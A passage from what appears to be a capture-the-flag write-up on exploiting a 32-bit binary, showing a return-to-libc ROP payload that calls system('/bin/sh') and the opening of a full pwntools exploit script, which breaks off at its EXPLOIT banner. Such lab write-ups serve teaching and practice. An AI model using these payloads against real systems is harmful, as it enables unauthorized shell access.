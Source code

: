 
## Get shell

Once all the necessary information is gathered, such as the leaked `libc` address, obtaining a shell becomes straightforward. With the correct offsets and the base address of `libc`, you can craft further ROP chains to execute functions like `system()` or spawn a shell, completing the exploitation.

- **Part 2 of exploit**

    ```python
    # Stage 2: Get shell

    pl2 = b'B' * 0x48
    pl2 += p32(libc.sym.system)
    pl2 += b'C' * 0x4                          # ret address
    pl2 += p32(next(libc.search(b'/bin/sh')))  # arg 1
    s(pl2)
    ```

- **Full exploit**

    ```python
    #!/usr/bin/python3
    from pwncus import *
    from time import sleep

    context.log_level = 'debug'
    exe = context.binary = ELF('./basic_rop_x86_patched', checksec=False)
    libc = ELF('libc.so.6', checksec=False)

    def GDB(): gdb.attach(p, gdbscript='''

    c
    ''') if not args.REMOTE else None

    if args.REMOTE:
        con = sys.argv[1:]
        p = remote(con[0], int(con[1]))
    else:
        p = process(argv=[exe.path], aslr=False)
    set_p(p)
    if args.GDB: GDB(); input()

    # ===========================================================
    #                          EXPLOIT
    # ===========================================================
